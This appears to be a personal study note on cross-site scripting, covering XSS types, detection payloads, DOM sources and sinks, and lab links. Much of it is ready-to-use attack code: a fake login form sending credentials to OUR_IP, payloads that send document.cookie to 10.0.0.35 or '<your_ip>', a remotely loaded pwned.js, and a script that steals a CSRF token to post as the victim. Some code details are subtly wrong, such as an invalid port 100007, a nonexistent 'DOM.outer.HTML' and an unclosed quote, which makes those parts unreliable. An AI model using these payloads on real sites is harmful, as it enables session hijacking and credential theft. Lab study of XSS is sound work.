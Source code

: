 - **tags:** #xss #top10 
- ------------------
# Intro
**XSS** allows an attacker to execute arbitrary JavaScript within the browser of a victim user.
# Types
- ***Stored:*** Stored on the back-end and displayed upon retrieval.
- **Reflected:** Processed by the back-end, but without being stored.
- **DOM-Based:** Processed on the client-side.
# Detection
Here are some basic payloads:
```html
<script>alert(window.origin);</script>
<plaintext>
<script>print();</script>
```
If modifications are persistent upon page refreshes we are dealing with *Stored* XSS.
Unlike Persistent XSS, *Non-Persistent XSS* vulnerabilities are *temporary* and are not persistent through page refreshes. Hence, our attacks only *affect the targeted* user and will not affect other users who visit the page. The key difference between *Reflected* and *DOM-based* is that on the first type user input is sent through requests to the back-end while on the other hand *DOM XSS* occurs when *JavaScript* is used to *change* the *page source* through the Document Object Model (*DOM*) (i.e. **#** on the *url*).
## DOM
### Source & Sink
The *Source* is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field. On the other hand, the *Sink* is the function that writes the user input to a DOM Object on the page. If the *Sink* function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some of the commonly used JavaScript functions to write to DOM objects are:
- innerHTML
- DOM.outer.HTML
- DOM.document.write()
#### Example
```js
//an object (task) is created to save the user input
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
//no sanitization is being done
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```
**Note:** The `innerHTML` function does not allow the use of the `<script>` tags within it as a security feature. However one could easily bypass that using something else like:
```js
<image src='' onerror=alert(document.cookie)>
```
# Examples
## Phising
```html
<div>
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
</div>
```
We could try to inject it with the `document.write();` function
## Cookie Hijacking
```js
var request = new XMLHttpRequest();
request.open('GET','http://10.0.0.35/?cookie=' + document.cookie);
request.send();
// other ways
<img src=x onerror=fetch("http://<your_ip>:port/"+document.cookie);>
new Image().src='http://10.0.0.35/index.php?c='+document.cookie;
```
## XSS bypassing [[CSRF]] token
We have published a post on a page vulnerable to XXS with the following content:
```html
<script src=http://10.0.0.35/pwned.js></script>
```
So when another user visits the post, the browser will automatically request the `pwned.js` *javascript*. On the other hand, we've started an http.server on our local machine (IP: *10.0.0.35*) waiting for the victim's call.
```js
//our first task is to capture a valid CSRF token
var domain = "http://localhost:100007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=I%20hate%20my%20boss&subtitle=I%20hate%20him&text=I%20am%20so%20angry&_csrf_token=" + token;
req2.open('POST', domain, false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
req2.send(data);
```
## Loading JavaScript from attacker's machine
Simplier example from the *Vulnhub Machine*. Inject the following javascript `<script src='http://10.0.0.35/pwned.js></script>` so when read by the victim's browser it will attempt to load the script from our local machine.
```js
//pwned.js
var req = new XMLHttpRequest();
req.open('GET', 'http://10.0.0.38/admin/admin.php?id=15&status=active');
req.send();
```
### Resource Labs
- [Hack4u XSS practice](https://github.com/globocom/secDevLabs) Use the owasp-top10-2021/a3/gossip-world Injection XSS
- [VulnHub Machine](https://www.vulnhub.com/entry/myexpense-1,405/)
- [Vulnhub Symfonos 6.1](https://www.vulnhub.com/entry/symfonos-61,458/)